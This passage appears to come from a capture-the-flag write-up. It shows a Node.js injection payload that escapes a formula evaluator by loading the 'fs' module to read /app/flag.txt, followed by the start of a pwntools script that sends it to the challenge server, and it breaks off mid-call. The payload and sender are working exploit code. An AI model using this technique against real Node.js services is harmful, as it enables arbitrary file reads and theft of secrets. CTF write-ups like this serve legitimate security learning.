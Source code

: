 The payload is the following:

```js
console.log(process.mainModule.constructor._load('fs').readFileSync('/app/flag.txt', 'utf8'));
```

and the script to send the payload is the following:

```py
#!/usr/bin/env python

from pwn import *

io = remote("pwn.glacierctf.com", 13375)
# console.log(process.mainModule.constructor._load('fs').readFileSync('/app/flag.txt', 'utf8'));
io.sendlineafter(
    b"Please type in formula:",
```